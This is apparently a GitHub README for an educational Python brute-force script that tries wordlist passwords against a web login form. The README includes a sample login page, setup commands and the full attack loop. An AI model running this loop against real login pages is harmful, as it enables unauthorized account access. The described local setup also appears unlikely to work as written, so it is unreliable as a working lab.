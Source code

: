 #  Brute Force Attack Script

## Overview
This project demonstrates a simple brute force attack script using Python. The script attempts to crack a password by systematically trying a list of possible passwords. The goal is to educate about security vulnerabilities and the importance of strong passwords, and to provide a hands-on example for beginners in penetration testing.

 **⚠️ Warning:** This script is for educational purposes only. Do not use it on any system without explicit permission from the owner.

 ## Features
* **Automated Login** Attempts: The script sends POST requests to a web server to attempt logins with different password combinations.
* **Custom Wordlist:** You can supply your own list of potential passwords to test.
* **Success Notification:** The script notifies you when the correct password is found.

## Requirements

* Python 3.x
* `requests` library

You can install the required library using the following command:

`pip install requests`

## Setup

1- Clone the repository:

`git clone https://github.com/yourusername/brute-force-script.git`

`cd brute-force-script`

2- Create a `passwords.txt` file in the same directory with a list of potential passwords, each on a new line:

`password123`

`qwerty`

`letmein`

`admin123`

`senhafoda`

3- Create the HTML login page (if needed):

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
</head>
<body>
    <h2>Login Page</h2>
    <form action="/login" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br><br>
        <label for="password">Password:</label><br>
        <input type="password" id="password" name="password"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
```

4- Run a local server to host the HTML page:

`python3 -m http.server 8000`


## Usage

1- Running the Script:

Edit the `brute_force.py` script to point to your local server:

```
import requests

url = 'http://0.0.0.0:8000/'
usernames = ['admin']
passwords = open('/path/to/your/passwords.txt', 'r').readlines()

for username in usernames:
    for line in passwords:
        password = line.strip()
        response = requests.post(url, data={'username': username, 'password': password, 'submit': 'Login'})
        if "Welcome" in response.text:  
            print(f"=========[+] PASSWORD CRACKED: {password} =========")
            break
        else:
            print(f"[-] Password invalid: {password}")
```

2- Run the Script:

`python3 brute_force.py`

The script will attempt to log in with each password in the passwords.txt file and will notify you when it successfully cracks the password.






